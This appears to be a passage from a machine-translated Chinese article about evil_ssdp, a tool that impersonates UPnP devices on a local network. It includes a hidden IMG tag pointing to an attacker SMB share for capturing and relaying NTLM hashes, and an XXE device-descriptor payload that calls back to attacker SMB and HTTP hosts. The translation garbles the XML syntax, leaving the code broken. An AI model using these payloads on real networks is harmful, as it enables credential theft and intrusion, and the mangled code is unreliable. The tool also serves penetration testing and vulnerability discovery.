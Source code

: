 ```
    <UDN>$session_usn</UDN>
    <serviceList>
      <service>
        <serviceType>urn:schemas-upnp-org:device:Basic:1</serviceType>
        <serviceId>urn:schemas-upnp-org:device:Basic</serviceId>
        <controlURL>/ssdp/service-desc.xml</controlURL>
        <eventSubURL>/ssdp/service-desc.xml</eventSubURL>
        <SCPDURL>/ssdp/service-desc.xml</SCPDURL>
      </service>
    </serviceList>

  </device>
</root>
```

该文件中的一个关键行包含“演示 URL”。如果用户决定手动双击 UPNP 设备，浏览器中就会加载这样的内容。evil_ssdp 将自动托管该文件(来自所选模板文件夹的 present.html)，将您的源 IP 地址插入到 IMG 标签中以访问 SMB 共享，您可以使用类似于 [Impacket](https://www.coresecurity.com/corelabs-research/open-source-tools/impacket) 、 [Responder](https://github.com/SpiderLabs/Responder) 或 [Metasploit](https://www.rapid7.com/db/modules/auxiliary/server/capture/smb) 的工具托管该共享。

IMG 塔奇看起来像这样:

**<img src = " file://///$ local _ IP/SMB/hash . jpg " style = " display:none；"/>br>**

**零时差狩猎**

默认情况下，这个工具会强制网络上的设备解析 XML 文件。对解析 XML 的应用程序存在一个众所周知的攻击——[XML 外部实体处理(XXE)](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing) 。

这种针对 UPNP 设备的攻击可能会被忽略，因为攻击方法复杂且不易察觉。然而，evil_ssdp 使得测试网络上易受攻击的设备变得非常容易。简单地运行这个工具，在输出中寻找一个大的`[XXE VULN!!!]`。注意:使用 xxe 模板可能不会在局域网上产生可见的恶意设备，它只适用于零交互场景。

这是通过提供包含以下内容的设备描述符 XML 文件来实现的:

**<？xml 版本="1.0 "？>
<！DOCTYPE 数据[
<！实体 xx 系统“file:////$ SMB _ server/SMB/hash . jpg”>
<！实体 xxe URL 系统“http://$ local _ IP:$ local _ port/ssdp/xxe . html”>
><>&xxe；&xxe URL；</日期>**

当易受攻击的 XML 解析器读取此文件时，它会自动装载 SMB 共享(允许您破解散列或中继)并访问 HTTP URL 以通知您它已被发现。该通知将包含 HTTP 头和 IP 地址，这将为您提供一些关于易受攻击的应用程序的信息。如果您看到这种情况，请务必联系供应商来解决问题。此外，我很乐意听到你使用这个工具发现的任何零天。请务必在您的 CVE 中提及该工具。

[**Download**](https://github.com/initstring/evil-ssdp)